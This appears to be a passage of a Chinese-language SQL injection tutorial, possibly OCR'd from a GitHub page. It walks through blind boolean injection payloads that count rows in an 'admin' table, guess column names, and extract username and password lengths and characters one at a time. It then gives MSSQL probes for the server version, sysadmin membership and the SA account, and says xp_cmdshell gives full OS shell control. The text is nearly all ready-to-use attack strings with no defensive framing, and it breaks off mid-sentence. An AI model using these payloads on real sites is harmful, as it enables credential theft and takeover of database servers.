 2 猜帐号数目 如果遇到0< 返回正确页面 1<返回错误页面说明帐号数目就是1个 
```
and 0<(select count(*) from admin) 
and 1<(select count(*) from admin)
```
3 猜解字段名称 在len( ) 括号里面加上我们想到的字段名称. 
```
and 1=(select count(*) from admin where len(*)>0)-- 
and 1=(select count(*) from admin where len(用户字段名称name)>0) 
and 1=(select count(*) from admin where len(密码字段名称password)>0)
```

4 猜解各个字段的长度 猜解长度就是把>0变换 直到返回正确页面为止 
```
and 1=(select count(*) from admin where len(*)>0) 
and 1=(select count(*) from admin where len(name)>6) 错误 
and 1=(select count(*) from admin where len(name)>5) 正确 长度是6 
and 1=(select count(*) from admin where len(name)=6) 正确

and 1=(select count(*) from admin where len(password)>11) 正确 
and 1=(select count(*) from admin where len(password)>12) 错误 长度是12 
and 1=(select count(*) from admin where len(password)=12) 正确
```

5 猜解字符 
```
and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位 
and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位 
```
就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了 

```
and 1=(select top 1 count(*) from Admin where Asc(mid(pass,5,1))=51) -- 
```
这个查询语句可以猜解中文的用户和密码.只要把后面的数字换成中文的ASSIC码就OK.最后把结果再转换成字符.

#### mssql的执行
若当前连接数据的帐号具有SA权限，且master.dbo.xp_cmdshell扩展存储过程
(调用此存储过程可以直接使用操作系统的shell)能够正确执行，
则整个计算机可以通过以下几种方法完全控制，以后的所有步骤都可以省


### 其他操作

看服务器打的补丁=出错了打了SP4补丁 
```
and 1=(select @@VERSION)--
```

看数据库连接账号的权限，返回正常，证明是服务器角色sysadmin权限。 
```
and 1=(SELECT IS_SRVROLEMEMBER(sysadmin))--
```

判断连接数据库帐号。（采用SA账号连接 返回正常=证明了连接账号是SA） 
```
and sa=(SELECT System_user)-- 
and user_name()=dbo-- 
and 0<>(select user_name()--
```
